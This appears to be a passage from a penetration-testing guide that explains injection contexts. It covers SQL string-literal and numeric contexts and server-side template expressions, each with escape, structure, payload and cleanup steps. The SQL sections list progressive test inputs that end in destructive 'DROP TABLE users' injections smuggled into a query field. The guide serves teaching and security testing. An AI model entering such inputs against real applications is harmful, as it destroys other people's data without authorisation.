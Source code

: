 ## SQL Contexts

### SQL String Literals
**Context Pattern:**
```sql
SELECT * FROM users WHERE name = 'USER_INPUT'
```

**Structural Requirements:**
- **Escape:** `'` (close string)
- **Structure:** `;` or SQL operator
- **Payload:** SQL injection payload
- **Cleanup:** `--` or `/**/` (comment)

**Progressive Testing:**
```
Step 1: test
Step 2: '
Step 3: ';
Step 4: '; DROP TABLE users;
Step 5: '; DROP TABLE users; --
```

### SQL Numeric Contexts
**Context Pattern:**
```sql
SELECT * FROM users WHERE id = USER_INPUT
```

**Structural Requirements:**
- **Escape:** Not needed (numeric context)
- **Structure:** SQL operator or `;`
- **Payload:** SQL injection
- **Cleanup:** `--` (comment)

**Progressive Testing:**
```
Step 1: 123
Step 2: 123;
Step 3: 123; DROP TABLE users;
Step 4: 123; DROP TABLE users; --
```

## Template Engine Contexts

### Server-Side Templates (Jinja2, Twig, etc.)
**Context Pattern:**
```
Hello {{USER_INPUT}}!
```

**Structural Requirements:**
- **Escape:** `}}` (close template expression)
- **Structure:** `{{` (open new expression)
- **Payload:** Template injection payload
- **Cleanup:** `}}` (close expression)
